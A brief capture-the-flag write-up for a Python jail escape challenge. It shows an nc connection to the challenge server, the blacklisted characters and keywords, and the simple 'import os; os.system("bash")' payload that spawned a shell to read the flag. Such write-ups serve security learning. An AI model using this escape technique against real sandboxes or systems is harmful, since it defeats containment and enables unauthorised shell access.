

## Connect to the jail via nc

```sh
$ nc 143.198.219.171 3333
```

i saw it was a python jail escape challenge , so i tried multiple bypass payloads but noticed a similar pattern in every payload that its 
blacklisting `_` , `/` , `;` , `+` , `open` , `eval` , `exec` .


so i tried something really simple payload using `os` module

Payload : 
```py
import os
os.system("bash")
```



& bingo it gave us a normal bash shell , which means we escaped the python environment , next just cat the flag out :)
